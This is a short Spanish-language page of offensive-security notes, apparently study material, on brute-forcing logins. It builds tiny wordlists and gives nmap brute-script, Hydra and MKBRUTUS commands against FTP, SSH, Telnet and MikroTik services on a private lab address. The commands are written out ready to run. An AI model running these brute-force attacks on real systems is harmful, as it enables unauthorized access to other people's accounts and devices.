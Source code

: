 ```yaml
---
theme: "just-the-docs"
title: "Ataques de Autenticacion/Login"
layout: default
nav_order: 13
parent: "Seguridad Ofensiva"
---
```

# Ataques de Autenticacion/login
## Creacion de diccionarios/wordlist pequenos para hacer las pruebas
```bash
cd /home/lesand/Desktop/tools/diccionarios  
echo -e "admin\nroot" > usuarios.txt
echo -e "lesand2222\nlesand3333\nlesand1111\nlesand4321\nlesand1234\lesand2020\nlesand2022\nlesand2023\nlesand2024\nlesand2025" > dicc.txt
```
## FTP
### NMAP
```bash
nmap -p 21 --script ftp-brute --script-args userdb=usuarios.txt,passdb=dicc.txt 192.168.85.134
```
## Hydra
```bash
hydra -L usuarios.txt -P dicc.txt ftp://192.168.85.134
```
## SSH
### NMAP
```bash
nmap -p 22 --script ssh-brute --script-args userdb=usuarios.txt,passdb=dicc.txt 192.168.85.134
```
## TELNET
### NMAP
```bash
nmap -p 23 --script telnet-brute --script-args userdb=usuarios.txt,passdb=dicc.txt 192.168.85.134
```
## Hydra
```bash
hydra -L usuarios.txt -P dicc.txt telnet://192.168.85.134
```
## Winbox/API Mikrotik
### MKBRUTUS
```bash
cd /home/lesand/Desktop/tools
git clone https://github.com/mkbrutusproject/MKBRUTUS.git
cd MKBRUTUS
python3 mkbrutus.py -t 192.168.85.134 -d /home/lesand/Desktop/tools/diccionarios/dicc.txt
```
